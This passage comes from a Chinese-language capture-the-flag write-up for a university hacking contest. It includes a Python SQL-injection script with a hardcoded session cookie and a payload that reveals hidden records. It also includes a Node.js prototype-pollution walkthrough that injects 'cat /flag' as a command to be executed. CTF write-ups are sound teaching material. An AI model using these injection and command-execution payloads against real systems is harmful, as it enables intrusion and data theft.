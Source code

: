 ```python
    for li in ul.select('li'):
        r = requests.get(url + li.a['href'], headers=headers)
        if 'flag{' in r.text:
            print(r.text)
            break
```

第二问，简单的SQL注入。

```python
import requests

url = 'https://chal01-vfutvlvc.hack-challenge.lug.ustc.edu.cn:8443'
headers = {
    'Cookie': 'session=eyJ0b2tlbiI6IjEwNzc6TUVVQ0lBSGhCYVFZUWlqQXVsRERmd2luZ1piV1RTb0g5UFJWS0xldlZhODNRTmhrQWlFQTFpZUpBM1UvUGpkeE9SeTEwbXJoUVhkRm9NcVcvWmYvWFVpbFBLYmVkYlk9In0.ZyXeYg.kWT_4WjIB96E39meiLRcwXM1_q4'
}

payload = "/view?conversation_id=' or shown = false; --"
r = requests.get(url + payload, headers=headers)
print(r.text)
```

flag 再url解码一下。

### Node.js is Web Scale

简单的JS原型链污染。所有的dict都是`__proto__`的实例，所有的dict都共享`__proto__`的成员。

```javascript
// POST /set - Set a key-value pair in the store
app.post("/set", (req, res) => {
  const { key, value } = req.body;

  const keys = key.split(".");
  let current = store;

  for (let i = 0; i < keys.length - 1; i++) {
    const key = keys[i];
    if (!current[key]) {
      current[key] = {};
    }
    current = current[key];
  }

  // Set the value at the last key
  current[keys[keys.length - 1]] = value;

  res.json({ message: "OK" });
});
```

然后直接赋值可以污染`__proto__`，所以只需要注入`key`为`__proto__.cat`，`value`为`cat /flag`污染到cmds，然后执行`/execute?cmd=cat`就能拿到flag。
